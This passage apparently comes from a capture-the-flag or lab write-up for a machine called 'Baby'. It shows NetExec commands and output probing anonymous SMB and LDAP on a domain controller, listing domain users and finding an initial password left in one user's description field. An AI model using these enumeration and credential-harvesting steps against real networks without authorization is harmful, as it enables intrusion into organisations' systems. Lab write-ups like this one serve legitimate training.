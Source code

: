 ```bash
└─# nxc smb baby.vl -u 'anonymous' -p '' --shares
SMB         10.10.88.67     445    BABYDC           [*] Windows Server 2022 Build 20348 x64 (name:BABYDC) (domain:baby.vl) (signing:True) (SMBv1:False) 
SMB         10.10.88.67     445    BABYDC           [-] baby.vl\anonymous: STATUS_LOGON_FAILURE 
                                                                                                                                                                                                  
┌──(root㉿kali)-[/home/kali/Desktop]
└─# nxc smb baby.vl -u 'anonymous' -p 'anonymous' --shares
SMB         10.10.88.67     445    BABYDC           [*] Windows Server 2022 Build 20348 x64 (name:BABYDC) (domain:baby.vl) (signing:True) (SMBv1:False) 
SMB         10.10.88.67     445    BABYDC           [-] baby.vl\anonymous:anonymous STATUS_LOGON_FAILURE 
                                                                                                          
```

- Anonymous SMB does not work, lets try LDAP

# Checking LDAP access

```bash
┌──(root㉿kali)-[/home/kali/Desktop]
└─# nxc ldap baby.vl -u '' -p ''                   
LDAP        10.10.88.67     389    BABYDC           [*] Windows Server 2022 Build 20348 (name:BABYDC) (domain:baby.vl)
LDAP        10.10.88.67     389    BABYDC           [+] baby.vl\: 
                                                                                                                                                                                                  
┌──(root㉿kali)-[/home/kali/Desktop]
└─# nxc ldap baby.vl -u '' -p '' --users
LDAP        10.10.88.67     389    BABYDC           [*] Windows Server 2022 Build 20348 (name:BABYDC) (domain:baby.vl)
LDAP        10.10.88.67     389    BABYDC           [+] baby.vl\: 
LDAP        10.10.88.67     389    BABYDC           [*] Enumerated 9 domain users: baby.vl
LDAP        10.10.88.67     389    BABYDC           -Username-                    -Last PW Set-       -BadPW-  -Description-                                               
LDAP        10.10.88.67     389    BABYDC           Guest                         <never>             0        Built-in account for guest access to the computer/domain    
LDAP        10.10.88.67     389    BABYDC           Jacqueline.Barnett            2021-11-21 22:11:03 0                                                                    
LDAP        10.10.88.67     389    BABYDC           Ashley.Webb                   2021-11-21 22:11:03 0                                                                    
LDAP        10.10.88.67     389    BABYDC           Hugh.George                   2021-11-21 22:11:03 0                                                                    
LDAP        10.10.88.67     389    BABYDC           Leonard.Dyer                  2021-11-21 22:11:03 0                                                                    
LDAP        10.10.88.67     389    BABYDC           Connor.Wilkinson              2021-11-21 22:11:08 0                                                                    
LDAP        10.10.88.67     389    BABYDC           Joseph.Hughes                 2021-11-21 22:11:08 0                                                                    
LDAP        10.10.88.67     389    BABYDC           Kerry.Wilson                  2021-11-21 22:11:08 0                                                                    
LDAP        10.10.88.67     389    BABYDC           Teresa.Bell                   2021-11-21 22:14:37 0        Set initial password to BabyStart123!     
```
- That looks good, we have a potential login with `Teresa.Bell:BabyStart123!`
